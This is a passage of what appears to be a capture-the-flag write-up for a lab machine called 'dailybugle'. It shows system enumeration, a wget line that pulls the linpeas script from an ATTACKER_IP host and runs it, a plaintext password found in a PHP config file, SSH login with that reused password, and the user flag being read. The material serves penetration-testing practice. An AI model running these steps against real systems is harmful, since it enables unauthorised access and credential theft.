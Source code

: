 ```shell-session
bash-4.2$ uname -a
Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
bash-4.2$ cat /etc/issue
\S
Kernel \r on an \m

bash-4.2$ cat /etc/os-release 
NAME="CentOS Linux"
VERSION="7 (Core)"
ID="centos"
ID_LIKE="rhel fedora"
VERSION_ID="7"
PRETTY_NAME="CentOS Linux 7 (Core)"
ANSI_COLOR="0;31"
CPE_NAME="cpe:/o:centos:centos:7"
HOME_URL="https://www.centos.org/"
BUG_REPORT_URL="https://bugs.centos.org/"

CENTOS_MANTISBT_PROJECT="CentOS-7"
CENTOS_MANTISBT_PROJECT_VERSION="7"
REDHAT_SUPPORT_PRODUCT="centos"
REDHAT_SUPPORT_PRODUCT_VERSION="7"
```

Let's try making use of `linpeas` to make things easier:
```shell-session
# Getting the linpeas script from our machine...
bash-4.2$ wget http://ATTACKER_IP:8080/linpeas.sh
bash-4.2$ sh linpeas.sh 
...
╔══════════╣ Searching passwords in config PHP files
        public $password = 'nv5uz9r3ZEDzVjNu';
...
```

Well, we have a password, let's pair that with the username `jjameson` (bruh, just `ls` the `/home` directory -\_-) and try logging into the machine using `ssh`:
```shell-session
$ ssh jjameson@TARGET_IP
jjameson@TARGET_IP's password: ...

[jjameson@dailybugle ~]$ ls -la
total 16
drwx------. 2 jjameson jjameson  99 Dec 15  2019 .
drwxr-xr-x. 3 root     root      22 Dec 14  2019 ..
lrwxrwxrwx  1 jjameson jjameson   9 Dec 14  2019 .bash_history -> /dev/null
-rw-r--r--. 1 jjameson jjameson  18 Aug  8  2019 .bash_logout
-rw-r--r--. 1 jjameson jjameson 193 Aug  8  2019 .bash_profile
-rw-r--r--. 1 jjameson jjameson 231 Aug  8  2019 .bashrc
-rw-rw-r--  1 jjameson jjameson  33 Dec 15  2019 user.txt
[jjameson@dailybugle ~]$ cat user.txt 
27a260fe3cba712cfdedb1c86d80442e
```
